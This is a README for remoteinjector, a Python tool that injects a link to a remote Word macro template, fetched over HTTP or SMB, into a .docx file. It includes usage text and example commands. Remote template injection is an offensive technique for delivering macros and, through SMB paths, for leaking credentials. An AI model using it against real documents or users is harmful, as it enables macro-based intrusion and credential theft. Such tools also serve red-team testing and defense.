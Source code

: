 # remoteinjector
Injects link to remote word template into word document.

[Related Blog Post](http://john-woodman.com/posts/VBA-Macro-Remote-Template-Injection/)
## Requirements
- Python2.7
## Usage
```
usage: remoteinjector.py [-h] [-w URL] F

Inject Template Through Relationship Settings

positional arguments:
  F           .docx file to inject template into

optional arguments:
  -h, --help  show this help message and exit
  -w URL      remote url to template

Example of use
To inject remote http url:

remoteinjector.py -w https://example.com/template.dotm example.docx

To inject SMB path:

remoteinjector.py -w \\1.1.1.1\C$\TEMP\template.dotm example.docx
```
